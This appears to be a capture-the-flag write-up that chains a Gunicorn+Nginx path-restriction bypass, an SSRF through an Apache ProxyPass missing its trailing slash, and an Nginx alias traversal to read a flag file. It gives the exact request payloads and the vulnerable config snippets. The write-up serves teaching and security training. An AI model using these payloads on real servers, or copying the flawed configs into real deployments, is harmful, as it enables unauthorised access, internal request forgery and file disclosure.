

## Solving steps
1. Gunicorn + Nginx 403 `/admin` path restriction bypass via [technique](https://speakerdeck.com/greendog/2-and-a-bit-of-magic?slide=14): `GET /admin<TAB>HTTP/1.1/../../ HTTP/1.1`
2. Find path as random UUID from the response: `/c7f5472b-4e09-4997-9eff-e1b7442b8b91/`
3. Find `/c7f5472b-4e09-4997-9eff-e1b7442b8b91/wiki/` path with other backend
4. Exploit SSRF via misconfigured Apache ProxyPass: `/c7f5472b-4e09-4997-9eff-e1b7442b8b91/wiki/@backend_nginx`
5. Exploit Nginx alias traversal for limited file reading: `/c7f5472b-4e09-4997-9eff-e1b7442b8b91/wiki/@backend_nginx/imgs../flag`



## Step #1

Hint is on main page:

```
Hello? My name is gunicorn and I have a friend called Nginx. We are really weird couple: proxy and backend :)</div><div>Can you find something behind /admin?
```

Keywords: weird, proxy, nginx, gunicorn

Player should find a way to bypass nginx path protection for reading /admin path.

Protection implemented at file: `reverse_nginx/nginx.conf`:

```
    location /admin {
        deny all;
    }
```

The key is finding repo [weird_proxies](https://github.com/GrrrDog/weird_proxies/) and one of the last presentation by the author [Weird proxies/2 and a bit of magic
](https://speakerdeck.com/greendog/2-and-a-bit-of-magic). On slide #14 we can find reverse proxy inconsistence example for Nginx + Gunicorn: [Slide #14](https://speakerdeck.com/greendog/2-and-a-bit-of-magic?slide=14)

Finally, payload is:
`GET /admin<TAB>HTTP/1.1/../../ HTTP/1.1`

Why it works:
- Nginx after path normalization: `/` - is not /admin so there is no restriction to access
- Forward: `/admin<TAB>HTTP/1.1/../../`
- Gunicorn after path parsing: `/admin`


## Step #2

From the previous step we have "secret" path: `/c7f5472b-4e09-4997-9eff-e1b7442b8b91/`

Here we found message:

```
    <h2>Search something?</h2>
    The application consists of several hosts:
    <ul>
        <li>default_backend_apache - accessible via /wiki/</li>
        <li>backend_nginx - internal network only</li>
    </ul>
```
Go to path `/c7f5472b-4e09-4997-9eff-e1b7442b8b91/wiki/` for accessing default_backend_apache.

Second bulnerability in reverse_apache misconfiguration in file `reverse_apache/my-httpd.conf`:

```
<VirtualHost *:80>
    DocumentRoot "/usr/local/apache2/htdocs/"
    ProxyPass    "/wiki/"  "http://default_backend_apache"
    ProxyPassReverse "/wiki/" "http://default_backend_apache/"
</VirtualHost>
```

`ProxyPass    "/wiki/"  "http://default_backend_apache"` is configured incorrectly (without trailing slash). So any character after `/c7f5472b-4e09-4997-9eff-e1b7442b8b91/wiki/` will be added to hostname `default_backend_apache`. It means it can be exploited for SSRF.
More info about misconfiguration [here](https://github.com/GrrrDog/weird_proxies/blob/master/Apache.md#vulnerable-configs)

For going to the next step: `/c7f5472b-4e09-4997-9eff-e1b7442b8b91//wiki/@backend_nginx`

## Step #3

Pretty known Nginx alias traversal bug. More info about misconfiguration [here](https://github.com/yandex/gixy/blob/master/docs/en/plugins/aliastraversal.md)

Misconfigured code in file `backend_nginx/nginx.conf`:

```
    # Alias traversal
    location /imgs {
        autoindex on;
        alias /usr/share/nginx/imgs/;
    }
```

Exploit for reading file: `/c7f5472b-4e09-4997-9eff-e1b7442b8b91/wiki/@backend_nginx/imgs../flag`

Btw, nginx shows files in directory with configuration: `autoindex on;`. So it's easy to identify flag location after getting alias traversal.